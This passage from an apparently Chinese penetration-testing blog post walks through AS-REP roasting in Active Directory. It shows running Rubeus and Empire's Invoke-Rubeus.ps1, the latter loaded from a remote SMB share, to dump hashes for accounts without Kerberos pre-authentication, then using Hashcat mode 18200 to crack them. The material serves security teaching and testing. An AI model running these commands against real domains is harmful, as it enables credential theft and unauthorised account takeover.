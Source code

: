 
![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704172-263896089.png)

然后，使用以下命令执行 AS-REP 烘烤攻击：

    .\Rubeus.exe asreproast 
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702442-5273942.png)

Boom！就这样，Rubeus 找到了所有禁用预身份验证的用户，然后转储了它们的 TGS-REP 哈希值！

> 注：上面输出的哈希值，不能直接复制粘贴使用，需要先将每行的回车符处理之后，使其成为一行哈希时才能供破解工具使用。

#### **

6.2、Invoke-Rubeus.ps1

**

**Invoke-Rubeus.ps1** 是一个 PowerShell 脚本，它是[Empire](https://github.com/BC-SECURITY/Empire)后利用框架的一部分 。

> 与 PowerSploit 类似，Empire 也有很多很棒的脚本可以使用。

获取 Invoke-Rubeus.ps1 副本之后，我们可以为其设置 SMB 共享，以供远程加载使用。

    . \\172.16.1.30\share\Invoke-Rubeus.ps1
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704239-2079902432.png)

加载脚本之后，可以使用以下命令执行 AS-REP 烘烤攻击：

    Invoke-Rubeus -Command "asreproast"
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182705653-922796547.png)

Awesome！就像在 rubeus.exe 中看到的那样，哈希值被成功转储了出来。

**

7、破解 AS-REP 哈希

**
----------------------

使用上面的各种工具获得了用户 vcreed 的 AS-REP 哈希之后，现在是时候使用 Hashcat 破解该哈希了！

首先，我们需要将哈希复制粘贴并处理保存在 **asrep\_hashes.txt** 的文件中。

接着，使用 Hashcat 的帮助菜单来找到破解此类哈希所需的破解模式。

    hashcat -h | grep -i "kerberos"
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703601-853176485.png)

从输出可以看到，这种哈希值所需的破解模式是 18200。

> 注：通过命令 `hashcat -h | grep -i "kerberos"` 查找出来的 kerberos 类型有很多，其中 as-rep 、pre-auth 这些类型感觉也和预认证相关，此时如何确定选择哪一种类型呢？
> 
> 此时，我们可以拿哈希开头的字串值 `$krb5asrep$` 去和 hashcat [官网](https://hashcat.net/wiki/doku.php?id=example_hashes)中给出的示例哈希进行比对，可以发现只有 18200 对应的格式与其匹配。
> 
> ![image](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182850039-7585528.png)
